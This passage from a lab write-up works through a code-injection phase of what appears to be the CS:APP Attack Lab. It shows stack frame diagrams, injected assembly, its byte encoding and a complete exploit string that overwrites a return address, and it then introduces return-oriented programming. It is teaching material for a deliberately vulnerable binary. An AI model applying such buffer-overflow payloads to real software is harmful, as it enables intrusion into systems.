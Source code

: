 So we have to find a new address to put our hex cookie value, considering using the frame of `test()`, it will not be affected by any `pushq`

```c
|  frame: test   |   
|     ....       | // address: 0x5561dca8
| return address |    
|     ....       |   
| frame: getbuf  |   
|     ....       |   
```

we can make it like this:

```c
|  frame: test   |   
|  cookie value  | // address: 0x5561dca8, in frame of test
|  return: %rsp  | // execute our injected code in 0x5561dc78
|     ....       |   
|     ....       | 
|     ....       |   
|     ret        |   
|     pushq      |
|     move       | // %rsp: 0x5561dc78
```

And now we can get the answer:

```c++
movq    $0x5561dca8, %rdi       // the address of our cookie
pushq   $0x4018fa               // address of touch3
ret                             // return to touch3

// generating the assembly codes
0:  48 c7 c7 a8 dc 61 55   mov    $0x5561dca8,%rdi
7:  68 fa 18 40 00         pushq  $0x4018fa
c:  c3                     retq
```

And make it to the final answer:

```c
48 c7 c7 a8 dc 61 55 68   // address: 0x5561dc78, executing our code
fa 18 40 00 c3 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
78 dc 61 55 00 00 00 00   // return to 0x5561dc78
35 39 62 39 39 37 66 61   // our hex cookie saved in $0x5561dca8
```

## Part2: Return-Oriented Programming

In real environment, it's hard to inject code because we have **Stack Randomization** and **Stack Read-Only Access**. So we have to use the current codes(**gadget**) to attack.
